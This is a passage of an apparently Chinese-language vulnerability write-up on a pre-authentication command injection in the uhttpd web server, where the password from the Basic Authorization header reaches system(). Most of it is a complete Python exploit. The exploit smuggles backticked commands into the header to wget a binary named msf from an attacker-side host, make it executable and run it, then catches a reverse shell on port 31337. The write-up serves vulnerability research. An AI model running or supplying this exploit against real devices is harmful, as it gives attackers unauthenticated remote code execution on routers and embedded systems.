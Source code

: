 ## 三、漏洞分析

直接使用IDA反编译uhttpd程序，然后根据字符串`Authorization`可以定位到`uh_cgi_auth_check`函数：

![image-20221116151954076](https://cdn.jsdelivr.net/gh/AlexsanderShaw/BlogImages@main/img/202211161519133.png)

其实函数逻辑比较简单，数据包头部的`Authorization`中的`Basic`后的数据经过Base64解码后，`:`后面的内容会传递给`snprintf`，这部分内容也就是`password`部分，然后就直接调用`system`函数来执行了。漏洞的成因可以说非常简单了，甚至都没有动态调试的必要。

（杂谈：官方给出的漏洞影响是认证绕过，但是分析下来看，这是认证前命令注入，并且可以实现RCE，严重程度远比官方给出的描述大。Fine，开心就好。）

所以这里可以直接给出exp：

```python
#!/usr/bin/python3

from pwn import *
from threading import Thread
import requests
import base64

cmd  = 'admin:'
cmd += '`'
cmd += 'wget http://192.168.7.1:8000/tools/msf -O /msf\n'
cmd += 'chmod 777 /msf\n'
cmd += '/msf'
cmd += '`'

assert(len(cmd) < 255)

cmd_b64 = base64.b64encode(cmd.encode()).decode()

headers = {
    "User-Agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:85.0) Gecko/20100101 Firefox/85.0",
    "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8",
    "Accept-Encoding": "gzip, deflate",
    "Connection": "keep-alive",
    "Upgrade-Insecure-Requests": "1",
    "Authorization": "Basic " + cmd_b64
}

def attack():
    try:
        requests.get("http://192.168.7.7/cgi-bin/", headers=headers, timeout=1)
    except Exception as e:
        print(e)

thread = Thread(target=attack)
thread.start()

io = listen(31337)
io.wait_for_connection()
log.success("getshell")
io.interactive()

thread.join()
```
